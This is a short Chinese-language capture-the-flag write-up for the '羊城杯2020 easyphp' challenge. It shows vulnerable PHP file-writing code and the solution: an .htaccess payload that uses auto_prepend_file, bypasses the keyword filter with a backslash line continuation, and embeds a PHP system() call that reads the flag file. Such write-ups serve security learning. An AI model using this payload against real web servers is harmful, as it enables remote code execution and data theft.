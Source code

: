 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211241416338.png)

## [羊城杯2020]easyphp

```php
<?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nHello, world");
?>
```

只有 index.php 能够被解析, 猜测是利用 .htaccess 的 php\_value 属性设置 auto\_prepend\_file

参考文章 [https://blog.csdn.net/solitudi/article/details/116666720](https://blog.csdn.net/solitudi/article/details/116666720)

file 被过滤了, 并且 content 后面会加入脏字符, 可以通过 `\` 来转义

```
php_value auto_prepend_fi\
le .htaccess
#<?php system('cat /fla?');?>\
```
